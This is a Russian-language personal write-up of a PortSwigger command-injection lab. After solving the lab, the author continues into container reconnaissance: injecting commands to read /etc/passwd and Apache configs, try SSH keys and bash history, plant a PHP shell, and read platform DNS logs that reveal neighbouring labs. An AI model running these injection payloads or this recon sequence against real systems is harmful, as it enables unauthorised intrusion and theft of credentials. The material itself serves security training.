осн теория [[0_OSi_иньекции_теория_уязвимостей]]




лаба
 https://portswigger.net/web-security/os-command-injection/lab-simple
 Чтобы решить задачу, выполните команду `whoami` для определения имени текущего пользователя.
 ---
вот тот самый запрос о котором идет речь в лабе 
запрос проверяет остаток - число товаров на складе


 

подозреваю, что параметры productId=1&storeId=1 могут быть уязвимы, подозреваю, что сами вопросы могут почти напрямую попадать в терминал...

##  **`"""&`** - получение сообщения от shell !

я ввел билиберду и пришел ответ прямиком из терминал от шел Syntax error  = ошибка пришла от `/bin/sh`
это уже значит, что я достучался до терминала! 

==Если в ответе  `sh:`, `bash:`, `command not found` — **шелл выполнился**. Это 99% подтверждение уязвимости.




##  **`whoami`** - получение юзера

недолго я подбирал, и вот, получил ответ. peter-Gz82ia
лаба решена

==**вертикальная черта (`|`)** — это однозначный маркер **Unix/Linux**==




`|` — это **pipe**. Он передает stdout первой команды в stdin второй.  
# почему?
абсолютно никакой валидации ввода!
доступ к терминалу откуда угодно, 
открытые запросы попадают напрямую в терминал без проверок...

# как предотвратить ?

Самый эффективный способ предотвратить уязвимости инъекции команд ОС — никогда не вызывать команды ОС из кода прикладного уровня. Почти во всех случаях существуют различные способы реализовать необходимую функциональность с помощью более безопасных платформенных API.

Если нужно вызывать команды ОС с пользовательским вводом, то необходимо выполнять сильную валидацию ввода. Некоторые примеры эффективной валидации включают:

- Валидация по белому списку разрешённых значений.
- Проверка того, что вход — это число.
- Проверка того, что вход содержит только буквенно-цифровые символы, без других синтаксисов или пробелов.


-------
##### хоть лаба и решена, едем дальше!
##### интересно же!

-----
# ЛЮБОПЫТСТВО ЗАВЕЛО МЕНЯ ДАЛЕКО!
# ВОТ МОЙ ОТЧЕТ ПО ДАЛЬНЕЙШЕЙ ЭКСПЛУАТАЦИИ УЯЗВИМОСТИ 
# ИССЛЕДОВАЛ АРХИТЕКТУРУ + ЛОГИ СЕРВЕРОВ PORTSWIGGER
# ПОСЛЕ ОТЧЕТА ИДЕТ ПОЭТАПНО КАЖДЫЙ ШАГ!

## КУДА УДАЛОСЬ ПОПАСТЬ?**

1. **Из приложения — в shell** ✅
    
2. **Из shell — в контейнер** ✅
    
3. **Из контейнера — в сеть хоста** ✅ (ARP)
    
4. **Из контейнера — в DNS-логи всей платформы** ✅
    
5. **Из контейнера — в IP-адреса соседних лаб** ✅
    
6. **Из контейнера — в понимание архитектуры PortSwigger** ✅
7. 
---

##  **РАЗВЕДКА СРЕДЫ (КОНТЕЙНЕР)**

|Действие|Результат|Значение|
|---|---|---|
|`ls /.dockerenv`|**Файл существует**|✅ **ТОЧНО DOCKER**|
|`cat /proc/1/cgroup`|Пусто (cgroups v2)|Подтверждение контейнера|
|`dmidecode`|Нет ответа|В контейнере нет доступа к железу|
 Мы **внутри контейнера Docker**.

---

##  **СЕТЕВАЯ РАЗВЕДКА (ВНУТРИ КОНТЕЙНЕРА)**

|Действие|Результат|Значение|
|---|---|---|
|`arp -n \| ip neigh`|`172.17.0.1 ... REACHABLE`|**Хост жив, bridge-сеть**|
|`cat /etc/resolv.conf`|`eu-west-1.compute.internal`|**AWS-образ**|
|`curl 169.254.169.254`|Connection refused|❌ **НЕ В AWS**|
|`curl 169.254.169.253`|Connection refused|Фейковый AWS metadata|

Контейнер **имитирует AWS ECS**, но работает **локально**.  
Это **симуляция PortSwigger**.

---

##  ** РАЗВЕДКА ПОЛЬЗОВАТЕЛЕЙ И ПРОЦЕССОВ**

|Действие|Результат|Значение|
|---|---|---|
|`cat /etc/passwd`|`carlos`, `academy`, `postgres`, `mysql`|**Карта атаки**|
|`ps aux \| grep academy`|**root → sudo -u academy → java**|**Архитектура лабы**|
|`ps aux \| grep root`|`inotifywait -m /academy/aws_credentials`|**AWS-ключи появятся**|
|`cat /etc/apache2/envvars`|`APACHE_RUN_USER=carlos`|**Веб-сервер от carlos**|

- Root запускает **academy**
- Academy запускает **Java-приложение**
- **inotifywait** ждёт AWS-ключи
- **carlos** — владелец Apache

---

## . ПОИСК ПРАВ НА ЗАПИСЬ (WRITABLE DIRS)**

|Действие|Результат|Значение|
|---|---|---|
|`find / -writable -type d 2>/dev/null`|`/var/www/images`|**ЕДИНСТВЕННАЯ точка записи**|
|`find /var/www -writable`|`/var/www`, `/var/www/images`|**Можем писать файлы**|
|`echo "TEST" > /var/www/images/test.html`|✅ Успех|**HTML отдаётся**|
|`echo "<?php ... ?>" > /var/www/images/shell.php`|❌ PHP не выполняется|**Нет RCE**|
|`echo "AddHandler ..." > /var/www/images/.htaccess`|❌ Игнорируется|**Apache не читает .htaccess**|

 PHP-шелл **невозможен**. Но **HTML работает**.

---

## ✳️  ✳️  ✳️  ✳️  DNS-ЛОГИ — ГЛАВНАЯ НАХОДКА ✳️**

|Действие|Результат|Значение|
|---|---|---|
|`cat /var/log/dnsmasq/dnsmasq.log`|**DNS-запросы всех лаб**|**OSINT на платформу**|
|Увидели `2.web-security-academy.net`|`10.0.3.183`, `10.0.4.209`|**IP соседних лаб**|
|Увидели `cms-*.web-security-academy.net`|`10.0.3.90`, `10.0.4.200`|**CMS-лабы**|
|Увидели конфиг dnsmasq|`--server=/burpcollaborator.net/...`|**Burp Collaborator перехвачен**|
|Увидели `--server=/ssmmessages.eu-west-1...`|`169.254.169.253`|**Фейковый AWS SSM**|

**ВЫВОД ПО АРХИТЕКТУРЕ:**

**PortSwigger создал ПОЛНУЮ СИМУЛЯЦИЮ AWS ECS + SSM + Burp Collaborator внутри своих лаб.**
- Все DNS-запросы уходят **на их фейковый DNS**
- Никакой реальный AWS не используется
- **Но механика SSM полностью симулирована**


---

##  ** ПОНИМАНИЕ ВНУТРЕННЕЙ ЛОГИКИ ЛАБЫ**
```
root → /academy/run.sh → sudo -u academy → java app
                        ↓
              inotifywait /academy/aws_credentials
                        ↓
              (когда появятся ключи) → SSM Agent → DNS-запрос

**ФИНАЛ ЛАБЫ:**

1. **AWS-ключи ПОЯВЛЯЮТСЯ** в `/academy/aws_credentials`
    
2. `inotifywait` реагирует
    
3. `academy` читает ключи
    
4. **DNS-запрос** к `ssmmessages.eu-west-1.amazonaws.com`
    
5. **Ты видишь это в логе dnsmasq**
```

---

##  ИТОГОВЫЙ СПИСОК ДОСТИЖЕНИЙ**

| ✅   | Что сделал                                 | Уровень сложности |
| --- | ------------------------------------------ | ----------------- |
| ✅   | Нашли command injection                    | **Junior**        |
| ✅   | Решили лабу                                | **Junior**        |
| ✅   | Определили ОС и ядро                       | **Junior+**       |
| ✅   | Обнаружили Docker                          | **Middle**        |
| ✅   | Нашли ARP-связь с хостом                   | **Middle**        |
| ✅   | Определили AWS-имитацию                    | **Middle+**       |
| ✅   | Нашли процессы root и academy              | **Middle+**       |
| ✅   | Обнаружили inotifywait на AWS-ключи        | **Senior**        |
| ✅   | Нашли writable директорию                  | **Senior**        |
| ✅   | Загрузили HTML-файлы                       | **Senior**        |
| ✅   | **Прочитали DNS-логи ВСЕХ ЛАБ**            | **Lead**          |
| ✅   | **Поняли архитектуру PortSwigger Labs**    | **Lead**          |
| ✅   | **Обнаружили IP соседних контейнеров**     | **Architect**     |
| ✅   | **Поняли механизм симуляции AWS SSM**      | **Architect**     |
| ✅   | **Составили полную карту внутренней сети** | **Architect**     |

---

## КУДА УДАЛОСЬ ПОПАСТЬ?**

1. **Из приложения — в shell** ✅
    
2. **Из shell — в контейнер** ✅
    
3. **Из контейнера — в сеть хоста** ✅ (ARP)
    
4. **Из контейнера — в DNS-логи всей платформы** ✅
    
5. **Из контейнера — в IP-адреса соседних лаб** ✅
    
6. **Из контейнера — в понимание архитектуры PortSwigger** ✅
    

rce не получилось получить конечно, а жаль )

---


-----
# ТУТ ПОШАГОВО ПРОДОЛЖЕНИЕ ИССЛЕДОВАНИЯ УЯЗВИМОСТИ 
## `uname -a` - и определение ОС

```bash

Linux b4520bd18845 4.14.254-280.651.amzn2.x86_64 #1 SMP Tue Jul 1 09:51:42 UTC 2025 x86_64 x86_64 x86_64 GNU/Linux
```
**Результат:** Ядро `amzn2` (Amazon Linux 2)




uname -a 2>/dev/null && echo "Linux/Mac" || (ver 2>/dev/null && echo "Windows" || echo "
тоже самое ==универсальным запросом!




---------

узнаем дистрибутив
## `cat /etc/os-relese`  определение дистрибутива**

```bash
NAME="Ubuntu"
VERSION="20.04.6 LTS (Focal Fossa)"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 20.04.6 LTS"
VERSION_ID="20.04"
HOME_URL="https://www.ubuntu.com/"
SUPPORT_URL="https://help.ubuntu.com/"
BUG_REPORT_URL="https://bugs.launchpad.net/ubuntu/"
PRIVACY_POLICY_URL="https://www.ubuntu.com/legal/terms-and-policies/privacy-policy"
VERSION_CODENAME=focal
UBUNTU_CODENAME=focal

```

==Ubuntu==



   

----------
## `pwd` и определение рабочей директории**
где это все находится?
```bash
pwd ls -la
```
дирректория ==/home/peter-Gz82ia==

Приложение запускается **из домашней папки пользователя**. Это значит:

- Временные файлы могут создаваться там
- Возможен запуск скриптов из этой папки
- В реальном аудите — сразу пробовать можно `.bashrc`, `.ssh`, `.*history`



---------
мое окружение 
## `cat /etc/passwd | grep bash` + перебор пользователей**




```bash

root:x:0:0:root:/root:/bin/bash
carlos:x:12002:12002::/home/carlos:/bin/bash
user:x:12000:12000::/home/user:/bin/bash
elmer:x:12099:12099::/home/elmer:/bin/bash
academy:x:10000:10000::/academy:/bin/bash
postgres:x:107:110:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
peter-Gz82ia:x:12001:12001::/home/peter-Gz82ia:/bin/bash

```
Прочитал список локальных пользователей.  
**Результат:** Увидел `carlos`, `elmer`, `academy`, `postgres`, `mysql`, `mongodb`.  
**Вывод:**  
Это карта атаки:
- `carlos` — владелец Apache (нашел позже в envvars)
- `postgres`, `mysql`, `mongodb` — базы данных на хосте
- `academy` — нестандартный путь, возможно приложение

-------

## `ps aux | grep john` и поиск процессов** (например john, а что?)

другие юзеры системы?
```bash

root      1006  0.0  0.2   6344  4180 ?        S    17:38   0:00 sudo -H -u peter-Gz82ia sh -c bash /home/peter-Gz82ia/stockreport.sh 1 1|ps aux | grep john
peter-G+  1009  0.0  0.0   2612   588 ?        S    17:38   0:00 sh -c bash /home/peter-Gz82ia/stockreport.sh 1 1|ps aux | grep john
peter-G+  1012  0.0  0.0   3308   712 ?        S    17:38   0:00 grep john

```




Увидел `sudo -H -u peter-Gz82ia sh -c bash /home/peter-Gz82ia/stockreport.sh`.  
**Вывод:**  
**Это золотая жила.** Увидел **команду, которая выполняется**.
- Скрипт `stockreport.sh` вызывается через `sudo`
- `-u peter-Gz82ia` — значит root запускает скрипт **от твоего имени**
- `stockreport.sh` — вероятно и есть точка входа  
    **Урок:** `ps aux` показывает живую архитектуру приложения.


----
## Попытка читать `.bash_history` и `~/.ssh`**

история 
productId=1&storeId=1|ls -la ~cat ~/.bash_history

доступа видимо нет
```bash
ls: cannot access '~cat': No such file or directory
ls: cannot access '/home/peter-Gz82ia/.bash_history': No such file or directory

```
Либо файлов нет, либо **путь не резолвится** корректно из-за особенностей шелла.  
**Урок:** В command injection `~` может работать не всегда. Используй полный путь: `/home/peter-Gz82ia/.bash_history`.  
**Реальность:** В лабах PortSwigger истории часто нет. В жизни — **это первое, что читают**.

-----


## кто в системе есть работает   `cat /etc/passwd | cut -d: -f1 

Это **список всех локальных пользователей системы**
```root
daemon
bin
sys
sync
games
man
lp
mail
news
uucp
proxy
www-data
backup
list
irc
gnats
nobody
_apt
carlos
user
elmer
academy
messagebus
dnsmasq
systemd-timesync
systemd-network
systemd-resolve
mysql
postgres
usbmux
rtkit
mongodb
avahi
cups-pk-helper
geoclue
saned
colord
pulse
gdm
peter-Gz82ia
```




Это учетки для демонов и сервисов. **У них нет пароля, нельзя залогиниться.**

```
daemon, bin, sys, sync, games, man, lp, mail, news, uucp, proxy, 
backup, list, irc, gnats, _apt, messagebus, dnsmasq, usbmux, rtkit,
avahi, cups-pk-helper, geoclue, saned, colord, pulse, gdm
```
другие - юзеры

---------

## *`sudo -l` и проверка прав**
права мои какие ?  productId=1&storeId=1|sudo -l
```bash

sudo: a terminal is required to read the password; either use the -S option to read from standard input or configure an askpass helper
```
`sudo` требует интерактивного терминала для ввода пароля. В non-interactive shell (наша инъекция) — не сработает.
**Обход:** В реальном пентесте — `echo "password" | sudo -S -l`

----------

## `cat ~/.bash_history`  история

история  productId=1&storeId=1|cat ~/.bash_history
```
cat: /home/peter-Gz82ia/.bash_history: No such file or directory

```


-------

## *`cat /etc/apache2/envvars` — конфиг Apache**

web конфиги productId=1&storeId=1|cat /etc/apache2/envvars

```bash
HTTP/2 200 OK
Content-Type: text/plain; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 1778

# envvars - default environment variables for apache2ctl

# this won't be correct after changing uid
unset HOME

# for supporting multiple apache2 instances
if [ "${APACHE_CONFDIR##/etc/apache2-}" != "${APACHE_CONFDIR}" ] ; then
	SUFFIX="-${APACHE_CONFDIR##/etc/apache2-}"
else
	SUFFIX=
fi

# Since there is no sane way to get the parsed apache2 config in scripts, some
# settings are defined via environment variables and then used in apache2ctl,
# /etc/init.d/apache2, /etc/logrotate.d/apache2, etc.
export APACHE_RUN_USER=carlos
export APACHE_RUN_GROUP=carlos
# temporary state file location. This might be changed to /run in Wheezy+1
export APACHE_PID_FILE=/var/run/apache2$SUFFIX/apache2.pid
export APACHE_RUN_DIR=/var/run/apache2$SUFFIX
export APACHE_LOCK_DIR=/var/lock/apache2$SUFFIX
# Only /var/log/apache2 is handled by /etc/logrotate.d/apache2.
export APACHE_LOG_DIR=/var/log/apache2$SUFFIX

## The locale used by some modules like mod_dav
export LANG=C
## Uncomment the following line to use the system default locale instead:
#. /etc/default/locale

export LANG

## The command to get the status for 'apache2ctl status'.
## Some packages providing 'www-browser' need '--dump' instead of '-dump'.
#export APACHE_LYNX='www-browser -dump'

## If you need a higher file descriptor limit, uncomment and adjust the
## following line (default is 8192):
#APACHE_ULIMIT_MAX_FILES='ulimit -n 65536'

## If you would like to pass arguments to the web server, add them below
## to the APACHE_ARGUMENTS environment.
#export APACHE_ARGUMENTS=''

## Enable the debug mode for maintainer scripts.
## This will produce a verbose output on package installations of web server modules and web application
## installations which interact with Apache
#export APACHE2_MAINTSCRIPT_DEBUG=1


```
Прочитал переменные окружения Apache.  
**Результат:** `APACHE_RUN_USER=carlos`.  
**Вывод:**  
Веб-сервер работает **от пользователя carlos**, а не от www-data.  
**Это ненормально.** Обычно www-data. Значит:

- Разработчик явно указал этого пользователя
- У carlos есть доступ к файлам сайта
- Если мы поднимем шелл — хотим стать carlos


--------


##  SSH ключи (если есть доступ к другим серверам) 
cat ~/.ssh/id_rsa
cat ~/.ssh/authorized_keys
```
cat: /home/peter-Gz82ia/.ssh/authorized_keysid_rsa: No such file or directory
```
нет файлов..


--------

## Бэкапы==
find / -name "*.backup" 2>/dev/null   ничего..
find / -name "*.sql" -o -name "*.tar" -o -name "*.gz" -o -name "*.bak" 2>/dev/null
их нет


--------

## DNS сервера `cat /etc/resolv.conf`
`cat /etc/resolv.conf`

```bash
search eu-west-1.compute.internal
nameserver 127.0.0.1
options timeout:2 attempts:5

```
1. **`eu-west-1.compute.internal`** — **100% AWS**. Это Ирландия/Лондон.
2.  **`nameserver 127.0.0.1`** — DNS крутится локально (dnsmasq, systemd-resolved)

**Для пентеста:**

- **Сервер в AWS EC2**
- Можно пробовать **DNS-экфильтрацию** через этот DNS
- Если DNS не ресолвит внешние имена — то я в VPC без интернет-шлюза
**Вывод:**  `eu-west-1`. Это метка, где живёт сервер.

-------

## ARP таблица (кто рядом)
`arp -a`   ничего
Соседей по L2 сети не видно. Pivot через ARP-spoofing невозможен.

-------
------


==Что запущено от carlos?==
`ps aux | grep carlos`    нет ответа


-------

==Есть ли у carlos cron задачи?==
`crontab -u carlos -l`
```bash
must be privileged to use -u

```


---------


==конфиги сайта (там могут быть пароли к БД)==
cat /var/www/html/wp-config.php 2>/dev/null        нет ответа
cat /var/www/html/config/database.php 2>/dev/null  нет ответа


-------


